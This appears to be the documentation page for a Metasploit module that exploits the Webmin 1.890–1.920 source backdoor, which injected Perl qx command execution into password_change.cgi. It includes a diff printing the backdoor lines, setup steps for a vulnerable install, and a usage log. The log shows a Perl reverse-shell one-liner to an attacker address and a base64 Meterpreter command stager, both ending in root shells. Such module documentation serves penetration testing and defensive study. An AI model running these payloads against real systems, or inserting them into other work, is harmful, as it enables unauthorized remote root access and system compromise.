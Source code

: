 ## Intro

This module exploits a backdoor in Webmin versions 1.890 through 1.920.
Only the SourceForge downloads were backdoored, but they are listed as
official downloads on the project's site.

Unknown attacker(s) inserted Perl `qx` statements into the build server's
source code on two separate occasions: once in April 2018, introducing
the backdoor in the 1.890 release, and in July 2018, reintroducing the
backdoor in releases 1.900 through 1.920.

Only version 1.890 is exploitable in the default install. Later affected
versions require the expired password changing feature to be enabled.

## Analysis

The backdoored code can compared across space and time with `diff3(1)`.

```
wvu@kharak:~/Downloads$ diff3 webmin-1.{890,930,920}/password_change.cgi
====2
1:1c
3:1c
  #!/usr/bin/perl
2:1c
  #!/usr/local/bin/perl
====1
1:12c
  $in{'expired'} eq '' || die $text{'password_expired'},qx/$in{'expired'}/;
2:12c
3:12c
  $miniserv{'passwd_mode'} == 2 || die "Password changing is not enabled!";
====3
1:40c
2:40c
  	$enc eq $wuser->{'pass'} || &pass_error($text{'password_eold'});
3:40c
  	$enc eq $wuser->{'pass'} || &pass_error($text{'password_eold'},qx/$in{'old'}/);
====3
1:200c
2:200c
  # Show ok page
3:200c

wvu@kharak:~/Downloads$
```

## Setup

1. `wget https://prdownloads.sourceforge.net/webadmin/webmin-1.890.tar.gz`
2. `tar xf webmin-1.890.tar.gz`
3. `cd webmin-1.890`
4. `./setup.sh`

## Targets

```
Id  Name
--  ----
0   Automatic (Unix In-Memory)
1   Automatic (Linux Dropper)
```

## Options

**RPORT**

Set this to the Webmin port. The default is 10000.

**TARGETURI**

Set this to the Webmin base path. The default is `/`.

**ForceExploit**

Set this to `true` to override the `check` result during exploitation.

## Usage

```
msf5 exploit(linux/http/webmin_backdoor) > run

[*] Started reverse TCP handler on 172.28.128.1:4444
[*] Webmin 1.890 detected
[+] Webmin 1.890 is a supported target
[+] Webmin executed a benign check command
[*] Configuring Automatic (Unix In-Memory) target
[*] Sending cmd/unix/reverse_perl command payload
[*] Generated command payload: perl -MIO -e '$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,"172.28.128.1:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~ /(.*)/){system $1;}};'
[*] Command shell session 1 opened (172.28.128.1:4444 -> 172.28.128.5:58374) at 2019-08-21 16:49:24 -0500

id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux ubuntu-xenial 4.4.0-141-generic #167-Ubuntu SMP Wed Dec 5 10:40:15 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
^Z
Background session 1? [y/N]  y
msf5 exploit(linux/http/webmin_backdoor) > set target 1
target => 1
msf5 exploit(linux/http/webmin_backdoor) > run

[*] Started reverse TCP handler on 172.28.128.1:4444
[*] Webmin 1.890 detected
[+] Webmin 1.890 is a supported target
[+] Webmin executed a benign check command
[*] Configuring Automatic (Linux Dropper) target
[*] Sending linux/x64/meterpreter/reverse_tcp command stager
[*] Generated command stager: ["echo -n f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAA+QAAAAAAAAB6AQAAAAAAAAAQAAAAAAAASDH/aglYmbYQSInWTTHJaiJBWrIHDwVIhcB4UmoKQVlWUGopWJlqAl9qAV4PBUiFwHg7SJdIuQIAEVysHIABUUiJ5moQWmoqWA8FWUiFwHklSf/JdBhXaiNYagBqBUiJ50gx9g8FWVlfSIXAecdqPFhqAV8PBV5aDwVIhcB47//m>>'/tmp/FgFBP.b64' ; ((which base64 >&2 && base64 -d -) || (which base64 >&2 && base64 --decode -) || (which openssl >&2 && openssl enc -d -A -base64 -in /dev/stdin) || (which python >&2 && python -c 'import sys, base64; print base64.standard_b64decode(sys.stdin.read());') || (which perl >&2 && perl -MMIME::Base64 -ne 'print decode_base64($_)')) 2> /dev/null > '/tmp/tDGmH' < '/tmp/FgFBP.b64' ; chmod +x '/tmp/tDGmH' ; '/tmp/tDGmH' ; rm -f '/tmp/tDGmH' ; rm -f '/tmp/FgFBP.b64'"]
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3021284 bytes) to 172.28.128.5
[*] Meterpreter session 2 opened (172.28.128.1:4444 -> 172.28.128.5:58376) at 2019-08-21 16:49:33 -0500
[*] Command Stager progress - 100.00% done (819/819 bytes)

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > sysinfo
Computer     : 10.0.2.15
OS           : Ubuntu 16.04 (Linux 4.4.0-141-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
